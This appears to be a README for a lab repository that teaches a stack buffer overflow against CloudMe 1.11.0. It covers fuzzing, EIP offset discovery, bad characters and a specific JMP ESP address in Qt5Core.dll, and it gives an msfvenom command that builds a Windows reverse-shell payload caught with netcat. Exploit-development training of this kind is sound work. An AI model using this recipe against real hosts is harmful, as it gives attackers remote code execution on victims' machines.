






# Cloud Me 1.11.0 - BufferOverflow Demo

The following demo is used to demonstrate the process of creating a buffer overflow from scratch against CloudMe version

## Environment Setup

### Requirements

- Windows 10.
- Kali Linux vm.
- Immunity Debugger.
- Putty.
- Python3.

### Setup and instalation

- Download and install Immnunity Debugger on Windows from [here](https://debugger.immunityinc.com/).
- Download and install CloudMe from [here](https://www.exploit-db.com/apps/cba3235e4ac485d70544207acd415a67-CloudMe_1110.exe).
- Download plink from [here](https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe).

### Remote Forwarding

- Run the following command in order to be able to access the CloudMe port from the kali vm. You must enable ssh access from the kali VM.

```
plink32.exe -ssh -l kali -R 192.168.150.153:8888:127.0.0.1:8888 192.168.150.153
```

## Immunity Debugger

- Open Immunity Debugger and go to File > Attach, and then select the CloudMe process.
- Once you are attached to the cloud me process you have to run it again.

## Fuzzing

- The script `scripts/fuzzing.py` can be used to fuzz the CloudMe application. The script will send 1000 more bytes on each step, you have to check immunity on each step to chech the buffer size.

- We found that we can crash the server using 2000 bytes.



## Overwriting EIP (1)

- Generate a pattern using `msf-pattern_create` from Kali.

```
msf-pattern_create -l 2000
```

- The script `scripts/exploit-1.py` has included the last patter. Yo must run it and get the values inside the EIP register.

- You can run `msf-pattern_offset` in order to get the offset until the return address.


## Overwriting EIP (2)

- The script `scripts/exploit-2.py` change the offset to the last value and overwrite the address with `BBBB` which is `\x42\x42\x42\x42`.



## Getting more space

- We can run `scripts/exploit-3.py` to check how much space do we have after overwriting the return address.

- You can try to change the size of the `Cs` buffer to check for more space.



## Badchars

- We have to check which characters are replaced inside the application, for example `\x00` is always a badchar.

- The script `scripts/exploit-4.py` can be used to find the badchars. In this case, only`\x00` is a badchars, in other exploits you may find several badchars.



## Return address

- We will overwrite EIP with a return address, the return address must be a JMP ESP instruction in order to jump into our controlled buffer.

- We have to find a valid JMP ESP instruction inside the memory space. There are some restrictions that we need to consider. First, we can't have badchars inside our return address, second, the memory protection inside the memory address must be disable.

- We can use mona in order to find a valid address. [Tutorial here](https://www.oreilly.com/library/view/python-penetration-testing/9781784399771/5ab35be1-6224-4757-af48-84f931a1a765.xhtml).

- First we check for valid modules by running `!mona modules`. We need a module which has all the protections in False and without badchars.



- In our case we will use `Qt5Core.dll`. To find a valid jmp esp instruction we can search for it using `!mona find -s '\xff\xe4' -m Qt5Core.dll`.


- We get the following address `0x68e05735`

- The script `scripts/exploit-5.py` has the new return address, next to the return address we send a bunch of `\xcc` instruction, `\xcc` allows us to interrupt the execution flow, so, if we were able to control the execution flow, we will reach here inside immunity debugger.



## Reverse shell

- We need to generate a shellcode to replace our bunch of `\xcc` with the code that we want to execute.
- We can use msfvenom to achieve this. The following command will generate the shellcode. Remember to change the IP, and also replace the `buf` var inside `scripts/final-exploit.py`
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=443 -f python -e x86/shikata_ga_nai -b "\x00"
```
- The script `scripts/final-exploit.py` includes the shellcode and a `NOP sled` before it. The `NOP sled` is used to avoid problems with the stack during the shellcode execution.

- To check the exploit you have to use netcat in order to listen on port 443, then you can run `scripts/final-exploit.py` and catch the reverse shell.


